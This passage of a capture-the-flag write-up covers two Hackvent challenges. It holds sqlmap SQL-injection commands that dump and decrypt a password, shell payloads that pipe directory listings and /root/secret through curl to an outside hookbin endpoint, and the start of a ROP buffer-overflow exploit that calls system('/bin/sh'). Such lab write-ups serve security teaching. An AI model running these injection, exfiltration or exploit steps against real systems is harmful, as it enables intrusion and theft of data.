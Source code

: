 - Get all databases: sqlmap -u http://challenges.hackvent.hacking-lab.com:8081/ --method POST --data "password=" --risk 3 --dbs
- Then the tables: sqlmap -u http://challenges.hackvent.hacking-lab.com:8081/ --method POST --data "password=" --risk 3 --tables -D muffin_bot
- Then the columns: sqlmap -u http://challenges.hackvent.hacking-lab.com:8081/ --method POST --data "password=" --risk 3 --columns -D muffin_bot -T passwords
- Then the data: sqlmap -u http://challenges.hackvent.hacking-lab.com:8081/ --method POST --data "password=" --risk 3 --dump -D muffin_bot -T passwords  
  (And yes, its really slow :D)
- OK, the password is encrypted, but we already have the key, so lets get the real password.  
  sqlmap -u http://challenges.hackvent.hacking-lab.com:8081/ --method POST --data "password=" --risk 3 --sql-query "SELECT AES_DECRYPT((SELECT password FROM passwords WHERE id = 1), 'muffin_botz_hax_pw')"  
  -> this_pw_is_so_eleet
- Then we can login to the site -> video changes
- In the HTML there is now a new hidden form where you can add your twitter name  
  It seems they are cleared on a regular interval, so keep checking and add it again
- OK, when we are on the ?twitter page, we can now start to tweet commands to the botnet  
  To get the results of these commands, we can use https://hookbin.com  
  curl -X POST -H "Content-Type: application/json" -d '{"name": "John"}' https://hookb.in/vgLlyGro
- So we craft our paylod to: sh -c 'ls -la / | base64 -w 0 | curl -d @- https://hookb.in/vgLlyGro'  
  This becomes:  
  MUFFIN_BOTNET:FQ5GPlRiTl9yM0sKBzMYYhUTY3IVA1AnF28eEzEzGkYFZkUuSR5lMyZLRntDNhlAOzxJDgl8XCBHWm88EAEqf04FG1wm:MUFFIN_BOTNET
- After searching through the file system, we can extract /root/secret  
  sh -c 'cat /root/secret | base64 -w 0 | curl -d @- https://hookb.in/vgLlyGro'  
  FQ5GPlRiTlBgZ0ZJFHxYNkZAZHAUAxIzS2ILUnJ2UFJGPkBiWRN9MwUTFH8Xbw0TQT5GDhJnRzFTHC57CQkNcRkrBxx3dCoKH1RFLU4=
- FLAG: *HV17-wh4t-4b0ut-n!x-m4l3w4re-4nd-cyberwarezzz?*

## Day21
**tamagotchi**  
ohai fuud or gtfo  
ohai  
I'm a little tamagotchi who wants fuuuuud, pls don't giveh me too much or I'll crash...
- Download the [binary](day21/tamagotchi) and [libc](day21/libc-2.26.2o)
- Run tamagotchi to see whether we can crash it.
- Looks like no matter how much food we give him, it wont crash...
- Wait, when we end the program, it crashes! So we can overwrite something and call it through ending the program.
- Lets see how many bytes we have to enter to overwrite the return address..
- You can do a little RE to see that fputs always reads 400 bytes, now lets input a pattern with 400 bytes
- Call the file with gdb, input the pattern and select bye (2) so the program crashes, now we see whats in RSP: 6C6D6E6F -> 6C = 108 * 2 (2 bytes each) = 216  
  So whe we input 216 chars, we can afterwards overwrite RSP.
- Ok now, because we are on a 64bit architecture, we cannot simply put arguments to our injected call on the stack, they have to go to RDI.
- I used ropper to find such a gadget inside tamagotchi  
  ropper --file tamagotchi --search "% ?di"
- This looks just perfect: 0x0000000000400803: pop rdi; ret;  
  It will take the first item from the stack and place it in RDI
- Locally we can now try an exploit, lets check the address for system() call in libc  
  in gdb you can simply use p system: 0x7ffff7a77d60 <\__libc_system>
- And we need /bin/sh, using gdb we can do find "/bin/sh"  
  libc : 0x7ffff7b9f917 --> 0x68732f6e69622f ('/bin/sh')
- So if we craft our "food" to be A*216 + 0x0000000000400803 + 0x7ffff7b9f917 + 0x7ffff7a77d60, "/bin/sh" should end up in RDI and system will execute this on the end.
- Now to do this on the remote server we got the libc that is used there. We cannot simply hardcode our addresses as the server might have ASLR in place
- First we need to find out the address of a function inside libc on the server
- The exe is using puts to print text on the screen, so we will use this
- We need to get the address of puts inside the GOT (thats what we want to get)  